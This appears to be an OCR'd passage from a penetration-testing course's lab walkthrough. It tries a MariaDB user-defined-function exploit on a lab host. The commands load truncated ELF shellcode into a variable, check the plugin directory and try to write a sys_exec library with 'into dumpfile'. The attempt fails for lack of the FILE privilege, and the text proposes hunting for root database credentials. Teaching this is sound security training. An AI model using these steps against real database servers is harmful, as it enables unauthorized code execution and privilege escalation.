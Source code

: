  MariaDB [(none)]> set @shell = 0x7f454c4602010100000000000000000003003e000100000000110
000000000004000000000000000e03b0000000000000000000040003800090040001c001b0001000000040
00000000000...00000000000000000000;
 
 Note the addition of “0x” to the beginning of the shellcode and the lack of single or double quotes.This is necessary for MariaDB to read the text as binary. Next, per the exploit instructions, we willconfirm the location of the plugin directory.
 
 MariaDB [(none)]> select @@plugin_dir;
+-------------------+
| @@plugin_dir |
+-------------------+
| /home/dev/plugin/ |
+-------------------+
1 row in set (0.072 sec)
 
 As expected, the plugin directory is in /home/dev/plugin/. Next, we need to output the shellcode toa file on Zora. The original exploit generates a random filename for this, but we can name itwhatever we want. The command in Listing 919 tells MariaDB to treat the contents of the @shellvariable as binary and to output it to the /home/dev/plugin/udf_sys_exec.so file.
 
 MariaDB [(none)]> select binary @shell into dumpfile '/home/dev/plugin/udf_sys_exec.so
';
ERROR 1045 (28000): Access denied for user 'wp'@'%' (using password: YES)
MariaDB [(none)]>
 
 Unfortunately, this is where we encounter our first problem. According to the error message above,the wp user does not have permissions to create files.
24.3.2.2 Why We Failed

 24.3.2.2 Why We Failed

 While the user does have permissions to run SELECT, INSERT, UPDATE, and DELETE, the wp useris missing the FILE permissions to be allowed to run dumpfile.736 To run dumpfile we need a useraccount with a higher level of permissions, such as the root user. Without this, we are stuck andcannot move forward with exploiting Zora using the current approach. The first logical option thatcomes to mind is to go back to Ajla and see if we can find root (or similar) MariaDB credentials
 
 